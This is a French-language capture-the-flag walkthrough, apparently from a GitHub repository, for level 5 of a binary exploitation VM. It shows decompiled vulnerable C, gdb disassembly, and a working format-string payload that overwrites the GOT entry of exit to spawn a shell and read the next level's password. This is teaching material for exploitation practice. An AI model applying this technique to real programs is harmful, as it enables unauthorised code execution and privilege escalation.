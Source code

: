 # LEVEL 5
## Walkthrough

Voici les étapes suivit pour accéder au niveau supérieur, soit le `level6`.

1. Une fois connecté à la VM sur le `level5`, l'on retrouve un fichier `level5` situé à la racine du dossier utilisateur. Ce dernier s'avère être de nouveau un exécutable ELF (Executable and Linkable Format).

2. On extrait ce fichier sur la machine host soit en utilisant la commande `scp` soit en utilisant un logiciel créer à cet effet :

	```sh
	> scp -P 4242 level5@127.0.0.1:level5 /path/on/machine/host
	```

2. On ouvre ensuite ce fichier dans Ghidra et après analyse, on obtient le désassemblage ci-dessous (que l'on refactorise pour plus de clarté).

    ```sh
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>
	#include <unistd.h>
	#include <sys/types.h>

	void o(void)
	{
		system("/bin/sh");
		exit(EXIT_FAILURE);
	}

	void n(void)
	{
		char local_20c[520];

		fgets(local_20c, 512, stdin); # 0x200 = 512 decimal
		printf(local_20c);
		exit(EXIT_FAILURE);
	}

	void main(void)
	{
		n();
		return;
	}
	```

	À partir de ce désassemblage, on en déduit que le programme contient 3 fonctions : la fonction `main`, la fonction `n` et la fonction `o` qui, tout trois, ne prennent aucun paramètre.

	La fonction `main` appelle tout simplement la fonction `n`. La fonction `n`, elle, lit une ligne de texte depuis l'entrée standard, soit `stdin`, dans un variable tampon `local_20c` et utilise `printf` pour l'afficher. En ce qui concerne La fonction `o`, celle-ci exécute la commande `système /bin/sh` pour ouvrir un shell interactif et `exit` le programme après.

	On constate 3 choses :
	- Dans un premier temps, la fonction `o` n'est ni appelée par la fonction `main` ni par `n` ;
	- Dans un deuxième temps, la fonction `printf` utilisée dans la fonction `n` n'utilise pas des spécificateurs de format, ce qui signifie que le contenu du tampon est interprété comme un format et cela peut donc être exploité.
	- Enfin, l'utilisation de la commande `système /bin/sh` dans la fonction `o` peut également être une vulnérabilité de sécurité si elle est accessible sans autorisation.

	En résumé, ce code est vulnérable aux attaques de format string, et il comporte une commande système potentiellement dangereuse qui peut être exploité par un attaquant pour obtenir un accès non autorisé au système.

5. L'idée ici est donc d'utiliser les vulnérabilités de la fonction `prinft` dans la fonction `n` afin d'appeler la fonction `o` en `buffer overflow` le `exit` de la fonction `n` et de lancer un shell interactif pour `cat` le fichier contenant le mot de passe du niveau suivant, soit `/home/user/level6/.pass`.

5. Pour cela, on va en premier trouver l'adresse de la fonction `o` : on lance donc `dgb` sur l'exécutable `level5` et on effectue la commande `info function`.

	```sh
    > gdb level5
    > info function
    [...]
		0x080484a4  o
		0x080484c2  n
		0x08048504  main
	[...]
    ```

6. Maintenant, on va trouver l'adresse de la fonction `exit` dans la fonction `n`. De ce fait, toujours dans `gdb level5`, on effectue un `disas` de la fonction `n` pour trouver l'adresse de la fonction `exit` dans la Procedure Linkage Table (PLT) pour de nouveau effectuer un `disas` sur cette adresse et obtenir l'adresse de la fonction `exit` dans `n`.

    ```sh
    > gdb level5
    > disas n
    Dump of assembler code for function n:
		0x080484c2 <+0>:	push   %ebp
		0x080484c3 <+1>:	mov    %esp,%ebp
		0x080484c5 <+3>:	sub    $0x218,%esp
		0x080484cb <+9>:	mov    0x8049848,%eax
		0x080484d0 <+14>:	mov    %eax,0x8(%esp)
		0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
		0x080484dc <+26>:	lea    -0x208(%ebp),%eax
		0x080484e2 <+32>:	mov    %eax,(%esp)
		0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
		0x080484ea <+40>:	lea    -0x208(%ebp),%eax
		0x080484f0 <+46>:	mov    %eax,(%esp)
		0x080484f3 <+49>:	call   0x8048380 <printf@plt>
		0x080484f8 <+54>:	movl   $0x1,(%esp)
		0x080484ff <+61>:	call   0x80483d0 <exit@plt>
	End of assembler dump.
	> disas 0x80483d0
	Dump of assembler code for function exit@plt:
		0x080483d0 <+0>:     jmp    *0x8049838
		0x080483d6 <+6>:     push   $0x28
		0x080483db <+11>:    jmp    0x8048370
	End of assembler dump.
    ```

    Ainsi, on obtient l'adresse `0x8049838` pour la fonction `exit` dans la GOT (Globat Offset Table). On on va donc remplacer l'adresse de `exit`, soit `0x8049838`, par l'adresse de `o` qui est `0x080484a4`. Ainsi, la fonction `n` en voulant exécuter `exit` exécutera `o`.

    Pour information :
    - PLT, Procedure Linkage Table : Structure utilisée pour appeler des fonctions externes ;
    - GOT, Globat Offset Table : Table qui indexe pour chaque fonction externe ou variable global externe son adresse globale.

7. Avant de créer la payload nécessaire pour exploiter cette vulnérabilité, il est essentiel de déterminer l'offset requis pour le `buffer overflow`. Pour ce faire, on va de nouveau exploiter l'une des vulnérabilités de la fonction `printf` afin de localiser l'emplacement de l'élément que l'on devra substituer lors de l'exploitation.

    ```sh
    > python -c "print 'AAAA' + ' %x ' * 24" | ./level4`
	AAAA 200  b7fd1ac0  b7ff37d0  41414141  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520
    ```

    En conséquence, on identifie que l'élément à exploiter est à la 4e position, car l'adresse correspondante à `AAAA` est `41414141`.

8. Maintenant, que l'on a les adresses de la fonction `exit` au sein de `n`, l'adresse la fonction `o` et l'emplacement de l'élément à exploiter, on peut générer la payload ci-dessous.

    ```sh
    > python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/payload5
    ```
    On a :
	- `\x38\x98\x04\x08` : L'adresse de la fonction `exit` dans `n` en format little-endian ;
	- `%134513824d`: L'adresse de la fonction `o` en decimal dans le flag `printf` `%d` ;

	- `%4`: L'emplacement de la 4e adresse dans la stack, soit celle de la fonction `exit` ;
	- `$n`: Le flag permettant de calculer le nombre de caractère stocké a cette adresse.

	De ce fait, on met la valeur `134513824` - soit l'adresse de la fonction `o`, à place de la fonction `exit` dans la fonction `n`.

9. À présent, il suffit simplement d'utiliser la chaîne de caractère précédemment généré afin d'exploiter les vulnérabilités de l'exécutable `level5`. En exploitant `level5` de cette manière, on s'assure que la fonction `o` est bien appelé et, ainsi, qu'un shell interactif est bien lancé. Il manque plus qu'à verifier que l'utilisateur a bien changé de `level5` à `level6` en utilisant la commande `whoami` et de `cat` le fichier contenant le mot de passe du `level6`, soit le fichier `/home/user/level6/.pass`.

    ```sh
	> cat /tmp/payload5 - | ./level5
	> whoami
	level6
	> cat /home/user/level6/.pass
	d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
	```

6. On peut à présent passer au niveau supérieur en exécutant la commande `su level6` et en y spécifiant le mot de passe qui vient d'être trouvée.

    ```sh
    > su level6
    Password :
	> d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ```
